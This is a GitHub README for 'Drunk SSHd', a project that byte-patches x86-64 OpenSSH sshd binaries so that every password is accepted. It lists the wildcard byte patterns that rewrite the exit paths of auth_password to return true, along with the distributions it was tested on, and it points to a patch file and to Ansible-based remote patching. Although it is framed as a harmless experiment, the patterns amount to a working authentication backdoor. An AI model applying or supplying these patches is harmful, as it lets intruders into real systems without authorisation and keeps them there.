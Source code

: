 # Drunk SSHd
> :warning: This project was an experiment purely for fun and should be treated as such. Do NOT put in production!

Ever wondered what happens if SSHd has a little too much to drink? Well, it starts accepting any password as valid. This repo contains generic byte replace patterns that will patch any x86-64 `sshd` binary to accept any password as valid.

## Notes
Although the patterns are as generic as possible, they are only for x86-64 and may not work on all OpenSSH versions. Tested versions are as follows:
- Lubuntu 19.10
- Kali 2019.4
- Linux Mint 19.3 XFCE

The tested binaries can be found in [samples](samples).

## Easy Patching
## Remote
Please refer to the [Ansible](ANSIBLE.md) doc.
## Local
Use my [byte pattern patcher](https://github.com/ViRb3/byte-pattern-patcher) with [this patch file](patch-drunk-sshd.json) and target your `sshd` binary. You should see `three` replaced occurances, `one` for each pattern.

## Methodology
The patterns will patch all exit routines in `auth-passwd.c`'s
```c
int auth_password(struct ssh *ssh, const char *password)
```

to return true, therefore authenticated.

## Patterns
- Patch auth_password exit routine 1
```
31 ?? 85 ?? 0f 95 ?? 21 ??
31 ?? ?? ?? b8 01 00 00 00

31 [11......] 	// XOR
85 [11......] 	// TEST
0f 95 [11......] 	// SETNZ -> MOV EAX, 0x1
21 [11......] 	// AND -> OVERWRITTEN
```

- Patch auth_password exit routine 2
  - 2 variations (check patch file)
```
21 ?? 0f b6 ?? eb ??
b8 01 00 00 00 ?? ??

21 [11......] 	// AND -> MOV EAX, 0x1
0f b6 [11......] 	// MOVZX -> OVERWRITTEN
eb [........] 	// JMP
```

- Patch auth_password exit routine 3
  - 2 variations (check patch file)
```
85 ?? 0f 95 ?? 83 3d ?? ?? ?? ?? 01 74 ?? 8B ?? ?? ?? ?? ?? 85 ??
85 ?? 0f 95 ?? 83 3d ?? ?? ?? ?? 01 74 ?? 8B ?? ?? ?? ?? ?? 39 ??

85 [11......] 	// TEST
0f 95 [11......] 	// SETNZ
83 3d [........] [........] [........] [........] 01 	// CMP
74 [........] 	// JZ
8b [00...101] [........] [........] [........] [........] 	// MOV
85 [11......] 	// TEST -> CMP
```